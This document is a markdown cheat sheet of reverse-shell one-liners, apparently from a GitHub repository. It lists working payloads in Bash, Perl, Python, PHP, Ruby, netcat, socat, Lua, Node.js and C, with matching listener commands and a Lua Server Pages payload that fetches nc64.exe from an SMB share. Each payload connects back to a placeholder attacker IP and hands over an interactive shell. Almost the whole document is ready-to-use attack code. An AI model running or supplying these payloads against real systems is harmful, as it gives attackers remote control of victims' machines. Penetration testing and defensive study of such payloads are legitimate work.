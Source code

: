 # Reverse Shell One-Liners


## Bash

TCP:

```bash
bash -i >& /dev/tcp/10.13.37.10/53 0>&1
```
```bash
bash -c 'bash -i >& /dev/tcp/10.13.37.10/53 0>&1'
```
```bash
0<&196;exec 196<>/dev/tcp/10.13.37.10/4242; sh <&196 >&196 2>&196
```
```bash
/bin/bash -l > /dev/tcp/10.13.37.10/4242 0<&1 2>&1
```

UDP:
```bash
sh -i >& /dev/udp/10.13.37.10/4242 0>&1

Listener:
nc -u -lvp 4242
```

## Perl
```bash
perl -e 'use Socket;$i="10.13.37.10";$p=53;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.37.10",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.37.10",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP
```bash
php -r '$sock=fsockopen("10.13.37.10",53);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.13.37.10",53).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## nc (netcat)
```bash
nc -e /bin/sh 10.13.37.10 53
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.37.10 53 >/tmp/f
```

## socat
```bash
# listener
socat file:`tty`,raw,echo=0 TCP-L:4242

# revshell
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

## Lua

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('192.0.0.1',8080);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();" 
```

## Lua Server Pages

Either run the command above in `<?lsp ... ?>` or if the socket module is not available try the os module:

* Start your SMB server
* Provide reverse shell binary or nc.exe

```lua
<?lsp
  require('os');
  os.execute("cmd.exe /c \\\\192.0.0.1\\EVILSHARE\\nc64.exe 192.0.0.1 135 -e cmd.exe")
?>
```

## NodeJs
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(5555, "10.0.13.37", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## PHP
```php
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## C

```c
# gcc /tmp/shell.c --output cshell
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

## Resources

* [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [genshell](https://github.com/djjoa/genshell)